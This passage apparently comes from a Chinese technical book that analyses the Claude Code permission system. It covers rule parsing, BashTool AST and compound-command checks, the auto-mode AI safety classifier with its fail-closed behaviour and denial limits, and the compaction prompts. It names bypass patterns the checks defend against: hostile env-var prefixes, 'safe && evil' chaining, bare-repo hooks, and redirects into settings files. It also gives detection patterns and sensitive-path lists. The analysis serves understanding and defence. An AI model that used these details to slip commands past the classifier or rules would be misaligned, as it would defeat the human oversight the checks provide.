    CHK -->|是| R3[fall through Bash子命令处理]
    CHK -->|否| A1[ask reason=rule]
    R2 -->|未命中| R3B[1c tool.checkPermissions]
    R3B --> R4[1d 工具返回deny?]
    R4 -->|是| D2[deny]
    R4 -->|否| R5[1e requiresUserInteraction?]
    R5 -->|是 ask| A2[ask bypass也要交互]
    R5 -->|否| R6[1f content-specific ask规则]
    R6 -->|命中| A3[ask bypass免疫]
    R6 -->|未命中| R7[1g safetyCheck敏感路径]
    R7 -->|命中| A4[ask bypass免疫 classifierApprovable]
    R7 -->|未命中| BP[2a bypass模式?]
    BP -->|是| ALW1[allow reason=mode]
    BP -->|否| AL[2b allow规则?]
    AL -->|命中| ALW2[allow reason=rule]
    AL -->|未命中| ASK[3 passthrough→ask 附消息]
```


## 第 81 章 权限规则字符串解析与文件系统 glob 匹配

第 23 章和第 81 章概述了权限模型，但权限规则字符串的完整解析算法值得单独深入。Claude Code 的权限规则采用统一的 `ToolName` 或 `ToolName(content)` 语法，各工具自行解释 content 的语义。这一设计让权限系统既统一又灵活。

### 81.1 规则语法的多样性

规则字符串统一格式为 `ToolName` 或 `ToolName(content)`，content 可包含转义括号 `\(` `\)` 与转义反斜杠 `\\`。各工具自行解释 ruleContent 的语义：

- **整工具规则**：`Bash`、`Read`、`WebFetch`（无 ruleContent）——对该工具整体生效
- **Bash 命令规则**：`Bash(git commit)`（精确）、`Bash(npm:*)`（前缀，legacy `:*` 语法）、`Bash(git *)`（通配符）
- **文件规则**：`Read(./src/**)`、`Edit(/etc/hosts)`，glob 以 gitignore 语义由 `ignore` 库匹配
- **WebFetch 域名规则**：`WebFetch(domain:example.com)`，ruleContent 即 `domain:<hostname>`
- **Agent 规则**：`Agent(Explore)`，ruleContent 即 agent 类型名
- **MCP 规则**：`mcp__server1`（服务器级）或 `mcp__server1__tool1`（工具级），支持 `mcp__server1__*` 通配

### 81.2 permissionRuleValueFromString 解析算法

`permissionRuleValueFromString`（permissionRuleParser.ts:93-133）的解析算法：

1. `findFirstUnescapedChar(ruleString, '(')`（行 158-175）——扫描第一个未被奇数反斜杠转义的 `(`
2. 若无 `(`，返回 `{ toolName: normalizeLegacyToolName(ruleString) }`
3. `findLastUnescapedChar(ruleString, ')')`（行 181-198）——找最后一个未转义 `)`；要求位于串末尾且在 `(` 之后，否则降级为整工具名
4. 切出 `toolName`（`(` 之前）与 `rawContent`（括号内）
5. 若 `rawContent === '' || rawContent === '*'`（行 126-128），视为整工具规则
6. `ruleContent = unescapeRuleContent(rawContent)`，先还原 `\(`/`\)`，最后还原 `\\`
7. `toolName` 经 `normalizeLegacyToolName` 映射旧名（如 `Task`→`Agent`，`KillShell`→`TaskStop`，`BashOutputTool`→`TaskOutputTool`）

`normalizeLegacyToolName`（行 31）通过 `LEGACY_TOOL_NAME_ALIASES` 表把废弃工具名映射为现用名，确保旧 settings/rules 仍生效。这是一个向后兼容设计——工具重命名时，旧的权限规则不会失效。

### 81.3 转义与反转义

`escapeRuleContent`（permissionRuleParser.ts）反向函数：先转 `\`，再转 `(`、`)`。`unescapeRuleContent`：先还原 `\(`/`\)`，最后还原 `\\`。转义顺序很关键——必须先转/还原反斜杠，否则会双重转义。这种"先反斜杠后括号"的顺序确保了 `\(` 被正确处理为转义括号而非"反斜杠+左括号"。

### 81.4 ShellPermissionRule 的三种类型

`shellRuleMatching.ts` 定义 `ShellPermissionRule` 判别联合：`{type:'exact'; command:string}` | `{type:'prefix'; prefix:string}` | `{type:'wildcard'; pattern:string}`。`parsePermissionRule`（行 159-184）解析：

1. `permissionRuleExtractPrefix`：`/^(.+):\*$/` 匹配 legacy 前缀语法（`npm:*`→`npm`）→ `{type:'prefix'}`
2. `hasWildcards`：若非 `:*` 结尾且含未转义 `*`（偶数反斜杠前导）→ `{type:'wildcard'}`
3. 否则 `{type:'exact'; command}`

### 81.5 matchWildcardPattern 的通配符匹配

`matchWildcardPattern`（行 90-154）将通配符 pattern 转为正则匹配：

1. trim pattern
2. 处理转义：`\*`→占位符，`\\`→占位符
3. 转义 regex 特殊字符但保留 `*`
4. `*`→`.*`
5. 还原占位符
6. **特殊优化**（行 142-145）：若 pattern 以 ` *`（空格+单通配符）结尾且该通配符是唯一未转义通配符，把 ` .*` 改成 `( .*)?`，使 `git *` 同时匹配 `git add` 与裸 `git`（对齐 `git:*` 前缀语义）
7. 用 `s`（dotAll，使 `.` 匹配换行）+ 可选 `i` flag 构造 `^...$` 正则

这一特殊优化是为了让 `Bash(git *)` 和 legacy 的 `Bash(git:*)` 语义一致——两者都应匹配裸 `git` 命令和 `git` 加任意参数。多通配符模式（如 `* run *`）不优化，因为优化会改变其语义。

### 81.6 matchingRuleForInput 的根分桶

`matchingRuleForInput`（行 955-1025）的核心是按"根"分桶匹配：

1. `fileAbsolutePath = expandPath(path)`；Windows 下转 POSIX
2. `patternsByRoot = getPatternsByContentsForToolName(...)`——取该工具+behavior 的所有 content 规则，按 `patternWithRoot` 分桶到 `Map<root|null, Map<relativePattern, rule>>`
3. 对每个 root：`patterns` 去掉 `/**` 后缀（ignore 库把 `path` 视为同时匹配自身及内部）；`ig = ignore().add(patterns)`；`relativePathStr = relativePath(root ?? getCwd(), fileAbsolutePath)`；`igResult = ig.test(relativePathStr)`
4. 无匹配返回 `null`

### 81.7 patternWithRoot 的根解析

`patternWithRoot`（行 853-917）解析规则的根：

- `//xxx` → root=`/`（POSIX 绝对）；Windows 下 `//c/Users/...` 转为 `C:\` drive root
- `~/xxx` → root=`homedir()`（NFC 规范化，防 Unicode 规范化攻击），relativePattern 去掉 `~`
- `/xxx` → root=`rootPathForSource(source)`（即该 source 的 settings 根目录）
- 其他（含 `./xxx` 去掉 `./`）→ root=`null`（任意匹配）

`rootPathForSource`（行 746-759）：`cliArg/command/session` → `getOriginalCwd()`；settings source → `getSettingsRootPathForSource(source)`。这种"按 source 解析根"的设计让规则的相对路径有明确的作用域——userSettings 的 `/xxx` 相对于用户主目录，projectSettings 的 `/xxx` 相对于项目根。

### 81.8 checkReadPermissionForTool 的九步

`checkReadPermissionForTool`（行 1030-1194）的九步（每个 pathToCheck 含原始+符号链接解析形式）：

1. UNC 路径深度防御（`\\` 或 `//` 开头）→ ask
2. 可疑 Windows 路径模式（`hasSuspiciousWindowsPathPattern`）→ ask
3. Read deny 规则 → deny
4. Read ask 规则 → ask
5. `checkWritePermissionForTool`（编辑权限隐含读权限），若 allow 则 allow
6. 在工作目录内（`pathInAllowedWorkingPath`）→ allow（`mode:'default'`）
7. 内部可读路径（session-memory、project dir、plan、tool-results、scratchpad、project temp、agent memory、memdir、tasks、teams、bundled-skills）→ allow
8. Read allow 规则 → allow
9. 默认 ask（附 `generateSuggestions`）

### 81.9 checkWritePermissionForTool 与 safetyCheck

`checkWritePermissionForTool`（行 1205-1412）的关键步骤：

1. Edit deny 规则 → deny
1.5. 内部可编辑路径（plan、scratchpad、job dir、agent memory、memdir、`.claude/launch.json`）→ allow（必须在 dangerous 检查前，因这些路径多在 `~/.claude/` 下）
1.6. `.claude/**` session allow 规则（仅查 session 源）→ allow（允许会话级临时绕过 `.claude/` 安全块）
1.7. **安全检查** `checkPathSafetyForAutoEdit`：若不安全 → ask（`decisionReason.type:'safetyCheck', classifierApprovable`）
2. Edit ask 规则 → ask
3. `acceptEdits` 模式且在工作目录内 → allow
4. Edit allow 规则 → allow
5. 默认 ask

### 81.10 checkPathSafetyForAutoEdit 的敏感路径

`checkPathSafetyForAutoEdit`（行 620-665）依次检查（每个 pathToCheck 含原始+符号链接解析）：

1. `hasSuspiciousWindowsPathPattern`（NTFS ADS、8.3 短名、长路径前缀、尾随点/空、DOS 设备名、三个以上连续点、UNC）→ `classifierApprovable: false`（不可分类器覆盖）
2. `isClaudeConfigFilePath`（`.claude/settings.json`、`.claude/commands`、`.claude/agents`、`.claude/skills`）→ `classifierApprovable: true`
3. `isDangerousFilePathToAutoEdit`（`.git`、`.vscode`、`.idea`、`.claude` 目录；`.gitconfig`、`.bashrc`、`.zshrc`、`.profile`、`.mcp.json`、`.claude.json` 文件）→ `classifierApprovable: true`

`classifierApprovable` 的语义：`true`（敏感文件路径）→ auto 模式下分类器仍可评估；`false`（Windows 旁路、跨机桥接）→ 任何 auto-approve 路径都不可覆盖，必须交互式批准。这一区分让 auto 模式在保持便利的同时，对真正的安全威胁保持警惕。

### 81.11 工作目录判定的 macOS 符号链接处理

`pathInWorkingPath`（行 709-744）处理 macOS `/var`↔`/private/var`、`/tmp`↔`/private/tmp` 符号链接，大小写规范化，`relativePath` 计算。这是 macOS 特有的复杂性——`/tmp` 实际是 `/private/tmp` 的符号链接，权限检查必须考虑两种形式。空串=同路径=允许；含 `..` 遍历=拒绝；非绝对相对路径=允许。


## 第 82 章 BashTool 安全分析与 AST 子命令拆分

第 24 章概述了 BashTool，但其安全分析机制（AST 解析、命令注入检测、复合命令拆分）值得深入剖析。BashTool 是安全风险最高的工具——它直接执行任意 shell 命令，因此其权限检查必须比其他工具更精细。

### 82.1 tree-sitter AST 解析

`bashToolHasPermission`（`bashPermissions.ts:1663`）使用 tree-sitter 对 Bash 命令进行 AST（抽象语法树）解析。这不只是简单的字符串匹配，而是真正的语法分析。例如：

- `git status` 和 `"git status"` 和 `git status # comment` 在 AST 层面是等价的命令
- `git$(echo status)` 是命令替换，与字面的 `git status` 语义完全不同
- `FOO=bar git status` 是 env var 前缀 + 命令

AST 解析让权限规则能匹配**语义**而非**字面**。规则 `Bash(git *)` 匹配所有以 git 开头的命令，但通过 AST 解析，它能正确处理引号、转义、命令替换等复杂情况。shadow 模式下可以观测但不启用 AST 分析（用于评估其准确率），避免误判阻塞合法命令。

### 82.2 命令注入检测

AST 解析还能检测**命令注入**风险——当命令中包含不可信的命令替换（`$(...)`、反引号）、管道到危险命令（`| sh`）、重定向到敏感路径时，AST 能识别这些模式。这是防御恶意 LLM 输出的重要手段——即使模型尝试通过构造复杂命令绕过规则，AST 分析也能识别其真实意图。

### 82.3 复合命令拆分与逐个匹配

Bash 命令常通过 `&&`、`;`、`|` 组合，如 `git add . && git commit -m "msg" && git push`。`bashToolCheckPermission`（`:1050`）将复合命令拆分为子命令，对每个子命令分别匹配规则。规则 `Bash(git *)` 会匹配每个 `git` 子命令，但 `git push` 可能被另一条 `Bash(git push:*)` 的 ask 规则覆盖。

这种逐子命令匹配确保了复合命令的安全性——不允许通过 `safe_cmd && dangerous_cmd` 的形式绕过 dangerous_cmd 的权限检查。

### 82.4 env var 前缀剥离

`FOO=bar git status` 这样的命令，env var 前缀 `FOO=bar` 会被剥离后再匹配 `Bash(git *)`。这是因为 env var 前缀不改变命令的本质（只是设置环境变量），规则匹配应针对实际命令而非前缀。剥离后，`git status` 被正确匹配。

### 82.5 _simulatedSedEdit 与权限绕过防护

BashTool 的 schema 中有 `_simulatedSedEdit` 字段，它被刻意从模型可见的 schema 中 omit。如果模型能直接设置该字段，可能绕过 sed 编辑的权限检查（sed 编辑直接写文件，绕过 FileEditTool 的权限）。通过 omit，模型无法通过 tool_use 输入该字段，只有内部代码路径（如 `/simulatedSedEdit` 流程）能设置。这是"内部字段不暴露给模型"的安全实践——任何能绕过权限的内部机制都不应出现在模型可见的 schema 中。

### 82.6 阶段 0：AST 安全解析

阶段 0（行 1670-1827）：若 `CLAUDE_CODE_DISABLE_COMMAND_INJECTION_CHECK` 或 shadow killswitch 关闭，`astRoot = null`。否则 `parseCommandRaw(input.command)`（tree-sitter WASM 解析）。`parseForSecurityFromAst`（ast.ts:400）返回 `'simple'`/`'too-complex'`/`'parse-unavailable'`：

- **too-complex**（行 1741-1769）：`checkEarlyExitDeny`（精确+前缀 deny），命中则返回；否则 ask（附 `pendingClassifierCheck`）
- **simple**（行 1771-1806）：`checkSemantics`（ast.ts:2213）查危险内建（eval/source/./trap/exec/enable/hash 等）；失败则 `checkSemanticsDeny`；否则取 `astSubcommands`
- **parse-unavailable**（行 1811-1827）：legacy `tryParseShellCommand` 预检，失败 ask

Shadow 模式（`TREE_SITTER_BASH_SHADOW`）只观察不启用 AST 分析，强制走 legacy。这是 AST 分析的"灰度发布"机制——先在 shadow 模式观察其准确率，再正式启用。

### 82.7 子命令拆分与逐个匹配

子命令拆分（行 2144-2157）：`rawSubcommands = astSubcommands ?? shadowLegacySubs ?? splitCommand(input.command)`；`filterCdCwdSubcommands` 剥掉 `cd ${cwd}` 前缀。若 legacy 路径且 `subcommands.length > MAX_SUBCOMMANDS_FOR_SECURITY_CHECK`（=50，行 103）→ ask。

逐子命令权限（行 2229-2266）：`subcommandPermissionDecisions = subcommands.map((cmd,i) => bashToolCheckPermission({command:cmd}, ctx, compoundCommandHasCd, astCommandsByIdx[i]))`。任一 deny → deny（`decisionReason.type:'subcommandResults'`）。

### 82.8 复合命令的 allow 不匹配

`filterRulesByContentsMatchingInput`（行 778-935）的关键安全设计：**复合命令的 allow 前缀规则不匹配**。在 prefix 模式下，若 `isCompoundCommand`（`splitCommand(cmd).length > 1`）→ false。这防止 `Bash(cd:*)` 匹配 `cd x && evil`——如果 allow 前缀规则匹配复合命令，恶意命令可能藏在 allow 的前缀之后。

但 deny/ask 规则**必须**匹配复合命令的子串（`skipCompoundCheck: true`）。这是因为 deny/ask 是"阻止"语义——必须能匹配复合命令中任何位置的恶意子串。这种"allow 保守、deny/ask 激进"的非对称设计确保了安全：allow 不轻易放行复合命令，deny/ask 积极拦截。

### 82.9 env var 前缀剥离的两种模式

env var 前缀剥离有两种模式，对应不同安全语义：

**安全剥离（allow 用）`stripSafeWrappers`**（行 524-615）：只剥安全 env var（`SAFE_ENV_VARS`，含 `NODE_ENV`/`RUST_BACKTRACE`/`LANG` 等；**绝不包含** `PATH`/`LD_PRELOAD`/`PYTHONPATH` 等可执行代码的变量）和 wrapper（timeout/time/nice/stdbuf/nohup）。这是保守剥离——只剥确定安全的变量，防止 `DOCKER_HOST=evil docker ps` 匹配 `Bash(docker ps:*)` 类攻击。

**激进剥离（deny/ask 用）`stripAllLeadingEnvVars`**（行 733-776）：剥所有前导 env var（含引号、数组、拼接），仅排除 shell 元字符；可选 `blocklist`（`BINARY_HIJACK_VARS = /^(LD_|DYLD_|PATH$)/`）阻止剥特定变量。这是激进剥离——deny/ask 必须能匹配 `FOO=bar denied_cmd` 中的 denied_cmd，不能被 env var 前缀绕过。

这种"allow 保守、deny/ask 激进"的剥离策略与复合命令匹配策略一致——安全策略（deny/ask）积极拦截，便利策略（allow）保守放行。

### 82.10 cd 校验的 bare repo RCE 防护

cd 校验（行 2181-2225）：多个 cd → ask；cd+git 组合 → ask（防 bare repo RCE）。bare repo RCE 攻击是指：恶意仓库设置 hooks，当 `cd` 到该仓库后执行 git 命令触发 hooks 执行恶意代码。通过禁止 cd+git 组合，Claude Code 防御了这类攻击。

### 82.11 redirect 路径校验

`checkPathConstraints`（pathValidation.ts:1013-1109）：进程替换 `>(...)`/`<(...)`（非 AST 路径）→ ask。重定向：有 AST 时 `astRedirectsToOutputRedirections`，否则 `extractOutputRedirections`。`hasDangerousRedirection`（含 `$`/`%`）→ ask。`validateOutputRedirections`：`compoundCommandHasCd && redirections.length>0` → ask（防 `cd .claude/ && echo > settings.json`）；逐 target `validatePath`（`/dev/null` 跳过）。

逐命令路径校验：AST 时 `validateSinglePathCommandArgv`（用 `stripWrappersFromArgv(cmd.argv)`）；否则 `validateSinglePathCommand`。`createPathChecker`（行 703-784）用 `PATH_EXTRACTORS[command]` 提取路径，`COMMAND_VALIDATOR` 校验，逐路径 `validatePath`。`rm`/`rmdir` 额外跑 `checkDangerousRemovalPaths`（`*`/`/*`/根/home/根的直接子 → 硬阻断）。


## 第 83 章 auto 模式的 AI 分类器与预批准域名

第 23 章和第 81 章提到了 auto 模式 AI 分类器，但其完整流程值得深入。auto 模式旨在减少权限中断——当规则决策为 ask 时，不直接弹窗，而是调用 AI 分类器判断安全性。

### 83.1 介入点与快速通道

auto 模式（`mode==='auto'`，或 plan 模式且 `isAutoModeActive()`）下，当 `hasPermissionsToUseToolInner` 返回 `ask` 时（permissions.ts 行 520-927）：

1. 非 `classifierApprovable` 的 safetyCheck：headless→deny；否则原 ask
2. `requiresUserInteraction()`→原 ask
3. PowerShell（无 `POWERSHELL_AUTO_MODE`）→原 ask
4. **acceptEdits 快速通道**（行 600-656）：以 `mode:'acceptEdits'` 重跑 `tool.checkPermissions`；allow 则跳过分类器（Agent/REPL 例外，因为它们 acceptEdits 下恒 allow 会绕过分类器）
5. **安全工具白名单** `isAutoModeAllowlistedTool`：Read/Grep/Glob/LSP/TodoWrite/Task*/Sleep 等只读/元数据工具直接 allow
6. **分类器** `classifyYoloAction`

### 83.2 SAFE_YOLO_ALLOWLISTED_TOOLS 的白名单

`SAFE_YOLO_ALLOWLISTED_TOOLS`（classifierDecision.ts:56-94）含 `FILE_READ_TOOL_NAME`、`GREP_TOOL_NAME`、`GLOB_TOOL_NAME`、`LSP_TOOL_NAME`、`TODO_WRITE_TOOL_NAME`、`TASK_*`、`ENTER/EXIT_PLAN_MODE`、`SEND_MESSAGE`、`SLEEP`、`YOLO_CLASSIFIER_TOOL_NAME` 等；**不含 write/edit 工具**（由 acceptEdits 快速通道处理）。这是"已知安全工具直接放行"——只读工具不可能造成破坏，无需分类器评估。

### 83.3 classifyYoloAction 的双阶段 XML 分类器

`classifyYoloAction`（yoloClassifier.ts:1012-1306）的流程：

1. `formatActionForClassifier` 构造待分类的 tool_use 块
2. `toCompact(action, lookup)` 压缩；若空（工具声明无分类器相关输入）→ `shouldBlock:false`
3. `buildYoloSystemPrompt(context)`：BASE_PROMPT + permissions template，用 `settings.autoMode` 的 `allow`/`soft_deny`/`environment` 替换 `<user_*_to_replace>` 段
4. `buildTranscriptEntries(messages)`：从历史提取 user 文本 + assistant tool_use（**排除 assistant 文本**，防模型自造内容影响分类器）
5. `buildClaudeMdMessage`：附 CLAUDE.md（标为用户意图，带 cache_control）
6. 模型选择 `getClassifierModel`：ant env > GrowthBook config > 主循环模型
7. **双阶段 XML 分类器**（`isTwoStageClassifierEnabled()`）→ `classifyYoloActionXml`

### 83.4 classifyYoloActionXml 的三模式

`classifyYoloActionXml`（行 711-996）三模式（`getTwoStageMode()`：`both`/`fast`/`thinking`）：

- **Stage 1（fast）**：max_tokens=64（fast-only=256），`stop_sequences:['</block>']`，附 `XML_S1_SUFFIX`（"Err on the side of blocking. `<block>` immediately."）。`<block>no</block>`→立即 allow；`<block>yes`→进入 stage 2
- **Stage 2（thinking）**：max_tokens=4096，附 `XML_S2_SUFFIX`（要求显式用户确认），解析 `<block>`+`<reason>`+`<thinking>`
- `parseXmlBlock` 先 `stripThinking` 防 CoT 内标签干扰
- 错误：`transcriptTooLong`→`shouldBlock:true`（确定性，回退正常提示）；其他 API 错误→`unavailable:true`

双阶段设计的价值是**性能**：大多数安全操作在 Stage 1 就能快速判断（max_tokens=64 极小），只有可疑操作才进入 Stage 2 深度分析。这平衡了分类器准确性与延迟。

### 83.5 分类器结果的 fail-closed/fail-open

分类器结果处理（permissions.ts 行 818-927）：

- `shouldBlock`：
  - `transcriptTooLong`：headless→`AbortError`；否则回退正常 ask
  - `unavailable`：受 `tengu_iron_gate_closed` gate（默认 true，30 分钟刷新）→ **fail-closed deny**；否则 fail-open 回退
  - 正常 block：`recordDenial`；`handleDenialLimitExceeded`（连续/总数超限→回退提示）；否则 deny
- `!shouldBlock`：`recordSuccess`，allow

`unavailable` 时的 fail-closed/fail-open 是关键安全决策——当分类器不可用（API 错误），是默认拒绝（安全）还是默认允许（便利）？Claude Code 选择默认拒绝（`tengu_iron_gate_closed` gate 默认 true），这是 fail-closed 策略——分类器不可用时宁可让用户手动批准，也不自动放行。

### 83.6 拒绝追踪与回退

`denialTracking.ts` 的 `DENIAL_LIMITS`（`maxConsecutive`/`maxTotal`）；`recordDenial`/`recordSuccess`/`shouldFallbackToPrompting`。`handleDenialLimitExceeded`（行 984-1058）：超限→headless 抛 `AbortError`，否则重置计数并转 ask（保留原 classifier 值供下游分析）。

这一机制防止了分类器"拒绝风暴"——如果分类器连续拒绝多次（可能误判），系统回退到手动批准，避免用户被连续弹窗淹没。`maxConsecutive` 限制连续拒绝，`maxTotal` 限制总拒绝，两者触发不同的回退行为。

### 83.7 Bash prompt 分类器与 pendingClassifierCheck

`bashPermissions.ts` 行 1856-1971 的 `classifyBashCommand`（来自 `bashClassifier.ts`，外部构建 stub 恒不启用）是独立的 Haiku 分类器，针对 `Bash(prompt:description)` 规则，deny 优先于 ask，并行调用。auto 模式下跳过（由 auto 分类器统一处理）。

`pendingClassifierCheck` 机制（行 1459-1481）：在权限弹窗显示时后台跑 allow 分类器，高置信则自动批准（`executeAsyncClassifierCheck` 行 1605-1658）。这是"投机批准"——在等待用户决策时并行跑分类器，如果分类器高置信 allow，自动批准无需用户点击，减少中断。

```mermaid
flowchart TD
    ASK[hasPermissionsToUseToolInner 返回 ask] --> AUTO{auto模式?}
    AUTO -->|否| PROMPT[弹窗/规则转换]
    AUTO -->|是| SC{safetyCheck classifierApprovable?}
    SC -->|false| HD{headless?}
    HD -->|是| DENY1[deny]
    HD -->|否| ASK1[原ask 弹窗]
    SC -->|true| UI{requiresUserInteraction?}
    UI -->|是| ASK2[原ask]
    UI -->|否| AE[acceptEdits快速通道]
    AE -->|allow| ALW1[allow fastPath=acceptEdits]
    AE -->|否| WL[安全工具白名单?]
    WL -->|是| ALW2[allow fastPath=allowlist]
    WL -->|否| CLS[classifyYoloAction]
    CLS --> ST{双阶段XML?}
    ST -->|Stage1 fast| S1[max_tokens=64 立即判断]
    S1 -->|block=no| ALW3[allow classifier=auto-mode]
    S1 -->|block=yes| S2[Stage2 thinking max_tokens=4096]
    S2 --> DEC{block?}
    DEC -->|no| ALW4[allow]
    DEC -->|yes| DNL[recordDenial + deny]
    CLS --> ERR{错误?}
    ERR -->|transcriptTooLong| FB1[回退ask]
    ERR -->|unavailable| FC{fail-closed?}
    FC -->|是 tengu_iron_gate_closed| DENY2[deny]
    FC -->|否| FB2[fail-open回退]
```

### 83.8 WebFetch 的权限检查

`checkPermissions`（WebFetchTool.ts 行 104-180）：

1. `ruleContent = webFetchToolInputToPermissionRuleContent(input)`——从 input 提取 URL hostname，返回 `domain:<hostname>`
2. `getRuleByContentsForTool(ctx, WebFetchTool, 'deny').get(ruleContent)` → deny
3. ask 规则 → ask
4. allow 规则 → allow
5. `isPreapprovedHost(hostname, pathname)` → allow
6. 否则 ask（建议 `WebFetch(domain:<hostname>)`）

### 83.9 预批准域名列表

`PREAPPROVED_HOSTS`（preapproved.ts:14-131）约 80 个文档/代码站点（MDN、python.org、github.com/anthropics 等）。`isPreapprovedHost` 拆分 hostname-only 与 path-prefix（`github.com/anthropics`），强制路径段边界（`/anthropics` 不匹配 `/anthropics-evil/`）。

预批准域名的设计意图是减少对常见文档站点的权限中断——模型访问 MDN、python.org 等可信文档站点时无需每次询问。但**仅限 WebFetch GET，沙箱网络限制不继承此列表**——Bash 的 `curl` 不享受预批准，仍需权限。

### 83.10 路径段边界的匹配

`isPreapprovedHost` 强制路径段边界——`github.com/anthropics` 匹配 `github.com/anthropics/claude-code`，但不匹配 `github.com/anthropics-evil/repo`。这是防"前缀欺骗"——恶意域名 `anthropics-evil` 不应因为包含 `anthropics` 前缀而被误判为预批准。路径段边界确保了匹配的精确性。


### 83.11 mcp__server__tool 的规则匹配

MCP 工具的权限规则支持服务器级和工具级：

- `mcp__server1`（服务器级）——对该服务器的所有工具生效
- `mcp__server1__tool1`（工具级）——仅对该特定工具生效
- `mcp__server1__*`（通配）——同服务器级

`toolMatchesRule`（permissions.ts:238-269）处理 MCP 服务器级匹配：解析双方 `mcpInfoFromString`；当 rule 是 `mcp__server1` 或 `mcp__server1__*`（`toolName` 为 `*` 或缺省）且 `serverName` 相等时匹配。

### 83.12 MCP 工具的 checkPermissions

MCP 工具包装为内部 Tool 接口时，`checkPermissions` 走通用权限系统（默认 passthrough）。MCP 工具的特殊性在于其权限规则用 `mcp__server__tool` 命名匹配，与内置工具的权限规则统一处理。这让用户可以用相同的 `ToolName(content)` 语法为 MCP 工具配置权限。

### 83.13 SDK 前缀跳过

`CLAUDE_AGENT_SDK_MCP_NO_PREFIX` 时用原始 tool.name（无 `mcp__` 前缀），但 mcpInfo 仍用于权限检查。这是 SDK 场景的特殊处理——SDK 进程内的 MCP 工具可能已有合适的命名，无需 `mcp__` 前缀，但权限检查仍需 mcpInfo 来区分服务器和工具。


## 第 84 章 compact 的 prompt 工程与上下文保留

第 56 章概述了 compact 流程，但其**提示词工程**与**上下文保留策略**值得深入剖析。compact 不是简单的"把旧消息摘要成一段话"，而是一个精心设计的 prompt 工程过程，旨在最大化保留对话的关键信息，同时为后续轮次提供可操作的上下文。

### 84.1 九节摘要结构的设计意图

`BASE_COMPACT_PROMPT`（`prompt.ts:61`）要求摘要模型按 9 节结构输出：

1. **Primary Request**：用户的原始意图——防止摘要后丢失"用户到底想要什么"
2. **Key Technical Concepts**：涉及的技术概念——保留领域知识
3. **Files and Code Sections**：涉及的文件与代码片段——保留代码上下文
4. **Errors and fixes**：遇到的错误与修复——避免重复踩坑
5. **Problem Solving**：问题解决过程——保留推理链
6. **All user messages**：所有用户消息（逐字）——用户消息是意图的最可靠来源，逐字保留防止曲解
7. **Pending Tasks**：未完成任务——防止摘要后忘记待办
8. **Current Work**：当前工作——为续接提供锚点
9. **Optional Next Step**：可选的下一步——主动建议

这一结构的设计哲学是：**并非所有信息同等重要**。用户消息逐字保留（最可靠意图来源），技术概念和文件保留（代码上下文），错误修复保留（避免重复），而模型的推理过程被精简（Problem Solving 是摘要而非逐字）。这种"差异化保留"比平铺直叙的摘要更有效地保留了对话的关键信息。

### 84.2 逐字引用要求

摘要提示词明确要求"逐字引用"（verbatim quotes）用户消息和关键代码。这是为了对抗摘要模型的"创造性改写"倾向——LLM 在摘要时可能不自觉地改写措辞，导致原始意图被曲解。逐字引用确保了关键信息的保真度。

### 84.3 readFileState 保存与恢复

compact 前保存 `readFileState`（记录已读文件的 mtime），compact 后恢复最近读取的文件（`createPostCompactFileAttachments` L1415：最多 5 个、单文件 5_000 token、总预算 50_000）。这一机制解决了一个关键问题：**摘要后模型失去了对已读文件的具体内容记忆**。

例如，对话中模型读取了 `src/main.tsx` 的 1-100 行，理解了入口逻辑。compact 后，摘要只说"讨论了 main.tsx 的入口"，但具体代码内容丢失了。如果后续需要引用那段代码，模型必须重新 Read，浪费一次工具调用和 token。通过恢复最近读取的文件内容（作为附件注入），模型在 compact 后仍能引用这些文件的具体内容，保持工作连续性。

### 84.4 plan 与 skill 附件重建

除了文件，compact 后还重建：plan 附件（`createPlanAttachmentIfNeeded`）、已调用 skill 附件（`createSkillAttachmentIfNeeded`，`POST_COMPACT_MAX_TOKENS_PER_SKILL = 5_000`、`POST_COMPACT_SKILLS_TOKEN_BUDGET = 25_000`）、异步代理状态附件、deferred tools/agent listing/MCP 指令 delta 重播。

这些附件重建确保了 compact 不会丢失"对话之外的状态"——当前执行的 plan、已激活的技能、后台运行的代理状态等。这些状态不在消息历史中，但影响模型的后续行为。如果不重建，compact 后模型可能重复激活技能、遗忘 plan、丢失对后台代理的感知。

### 84.5 PTL 重试与 API round 分组

摘要请求本身可能 prompt-too-long（PTL）——要摘要的消息太多。`truncateHeadForPTLRetry`（`compact.ts:243`）按 API round 分组（`groupMessagesByApiRound`）丢弃最旧组，最多 3 次（`MAX_PTL_RETRIES`）。

"API round"是一对 user+assistant 消息（一次 API 调用的往返）。按 round 分组而非按消息分组，确保了不拆散 tool_use/tool_result 配对——丢掉一个 round 是丢掉完整的用户输入+模型响应+工具结果，保持 API 一致性。丢组后若以 assistant 开头则补合成 user marker，因为 API 要求消息以 user 开头交替。

### 84.6 摘要模型不可调工具

`createCompactCanUseTool`（`compact.ts:1125`）全拒——摘要模型不能调用任何工具。这是深思熟虑的设计：

1. **防止摘要失控**：如果摘要模型能调工具，它可能去 Read 文件、Grep 代码，摘要过程变成又一轮对话，token 消耗失控
2. **prompt cache 友好**：不调工具意味着摘要请求是纯文本生成，可以充分缓存
3. **明确边界**：`NO_TOOLS_PREAMBLE`（`prompt.ts:19`）强制纯文本 + `<analysis>`/`<summary>` 块，明确"调用工具会被拒绝并浪费唯一一次机会"

这一约束让 compact 成为一个有界操作——无论对话多长，摘要的 token 消耗是可预测的（摘要输出 ≤ 20_000 token）。

### 84.7 NO_TOOLS_PREAMBLE 的前置约束

`NO_TOOLS_PREAMBLE`（行 19–26）置于所有摘要提示词**最前**的硬约束。其设计动机（行 12–18 注释）揭示了一个真实的工程问题：fork 路径继承父级完整工具集（这是 cache-key 匹配所需的），但在 Sonnet 4.6+ adaptive-thinking 模型上，模型有时会忽略尾部指令尝试调工具。配合 `maxTurns: 1`，被拒工具调用会导致无文本输出，落入流式 fallback（统计显示 4.6 上 2.79% vs 4.5 上 0.01% 的失败率）。将其前置并明确"拒绝后果"可避免浪费 turn。

约束文本明确列出"不要用 Read、Bash、Grep、Glob、Edit、Write 或任何其他工具"，并强调"你已经有了所需的所有上下文"、"调用工具会被拒绝并浪费你唯一的 turn——你会失败任务"。配合尾部 `NO_TOOLS_TRAILER`（行 269–272）的重复提醒，形成首尾夹击的约束。

### 84.8 analysis 草稿区的设计

`<analysis>` 块是**草稿暂存区**。摘要模型先在 analysis 区按时间顺序逐节分析对话，识别用户意图、处理方式、关键决策、文件名、代码片段、错误与修复，特别关注用户反馈。然后基于分析产出 `<summary>` 块。`formatCompactSummary()`（行 311–335）会在摘要进入上下文前**剥离整个 analysis 区**——它只用于提升摘要质量，本身无信息价值，保留它只会浪费 token。

